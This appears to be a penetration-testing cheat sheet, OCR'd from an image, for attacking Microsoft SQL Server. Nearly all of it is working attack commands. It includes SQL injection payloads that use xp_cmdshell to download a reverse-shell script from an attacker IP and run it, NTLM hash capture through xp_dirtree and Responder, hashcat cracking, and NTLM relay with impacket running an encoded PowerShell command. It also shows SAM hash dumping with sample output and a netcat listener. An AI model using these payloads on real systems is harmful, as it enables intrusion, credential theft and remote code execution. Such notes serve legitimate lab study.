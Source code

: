 ```

admin' UNION SELECT 1,2; EXEC xp_cmdshell 'powershell.exe "wget http://192.168.45.185:8000/revers_powershell.ps1"';--//

# Execute the payload
' ; EXEC xp_cmdshell 'C:\Windows\Temp\shell.exe';--
```

###### steal NTLM hash - force the SQL service to authenticate to our machine and capture the hash
```
# run responder
sudo responder -I tun0

# connect from mssql to smb server that i host using responder
EXEC MASTER.sys.xp_dirtree '\\<kali ip>\test', 1, 1

' OR 1=1 ; exec master.dbo.xp_dirtree '\\192.168.49.239\test';--

# crack the hash
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force -O
```

 ###### relay attack
```
# start smb server with the comment base64 encoded
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.247.159 -c "powershell -e JABjAGwAaQBlAG4Ad"

# login to smb server
mssqlclient.py Administrator:Lab123@192.168.50.18 -windows-auth

# connect ti smb share
SQL> EXEC MASTER.sys.xp_dirtree '\\192.168.45.243\test', 1, 1

# get shell if you run revers shell
nc -lvnp 80 
```

###### dump hashes
```
# start smb server 
sudo impacket-ntlmrelayx -t 192.168.247.159 -smb2support

# login to smb server
mssqlclient.py Administrator:Lab123@192.168.50.18 -windows-auth

# connect to smb share
SQL> xp_dirtree '\\192.168.45.243\share'

# in the impacket-ntlmrelayx we will see hashes
. . .
[*] All targets processed!
[*] SMBD-Thread-16 (process_request_thread): Connection from 192.168.247.158 controlled, but there are no more targets left!
[*] Target system bootKey: 0xf05dca6ed1673a51e5ae2479cb5da7c0
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a1fcb4118dfcbf52a53d6299aab57055:::
. . .
```
